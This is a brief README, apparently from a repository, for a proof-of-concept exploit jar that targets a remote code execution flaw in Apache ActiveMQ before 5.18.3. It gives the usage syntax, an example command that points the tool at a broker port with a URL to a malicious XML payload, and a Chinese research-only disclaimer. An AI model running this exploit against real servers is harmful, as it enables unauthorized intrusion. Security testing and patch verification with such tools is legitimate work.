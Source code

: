 # activemq_poc
Apache ActiveMQ (版本 &lt; 5.18.3) RCE
 
Usage: java activemq_poc.jar <ip> <port> <urlfile_xmlpoc>

eg: java -jar activemq_poc.jar 127.0.0.1 61616 http://127.0.0.1:8000/poc.xml

免责声明： 本工具仅供安全研究使用，请勿利用从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
